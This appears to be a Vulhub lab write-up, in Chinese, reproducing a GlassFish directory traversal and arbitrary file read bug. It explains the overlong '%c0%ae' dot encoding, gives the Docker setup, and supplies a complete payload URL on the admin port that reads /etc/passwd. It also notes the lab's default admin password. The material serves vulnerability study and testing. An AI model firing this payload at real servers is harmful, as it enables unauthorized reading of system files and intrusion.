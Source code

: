 # GlassFish 任意文件读取漏洞

## 漏洞描述

参考阅读：

- https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

## 环境搭建

Vulhub编译、运行测试环境

```
docker-compose build
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080`和`http://your-ip:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

## 漏洞复现

访问`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

![image-20220223221248955](images/202202232212069.png)

## 额外说明

本环境超级管理员密码在`docker-compose.yml`中设置，默认为`vulhub_default_password`，在4848端口利用该密码可以登录管理员账户。
